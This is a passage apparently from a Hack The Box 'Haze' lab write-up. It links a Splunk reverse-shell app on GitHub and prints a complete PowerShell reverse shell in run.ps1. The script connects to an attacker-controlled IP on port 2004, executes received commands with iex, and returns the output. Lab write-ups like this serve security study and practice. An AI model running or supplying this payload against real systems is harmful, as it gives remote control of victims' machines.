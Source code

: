 ![image.png](/assets/Images/HTB_Haze/image%201.png)

[https://github.com/0xjpuff/reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk)

![Screenshot 2025-03-31 at 9.43.16 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_9.43.16_PM.png)

Change the IP for `run.ps1`

```bash
$client = New-Object System.Net.Sockets.TCPClient('10.10.xx.xxx', 2004)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | % { 0 }

while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}

$client.Close()
```
